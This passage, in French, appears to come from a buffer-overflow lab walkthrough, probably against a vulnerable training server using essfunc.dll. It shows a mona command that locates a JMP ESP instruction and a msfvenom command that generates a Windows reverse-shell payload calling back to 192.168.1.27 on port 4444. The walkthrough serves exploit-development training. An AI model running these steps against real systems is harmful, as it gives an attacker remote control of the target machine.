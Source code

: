 **Commande pour rechercher JMP ESP**
```
!mona find -s "\xff\xe4" -m essfunc.dll
```
![Résultat JMP ESP](./JMPESP.png)

---

### Étape 5 : Génération et Injection du Shellcode

Création du Shellcode Reverse Shell :

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.27 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

📸 **Shellcode généré :**  

![Résultat shellcode](./payloadencode.png)
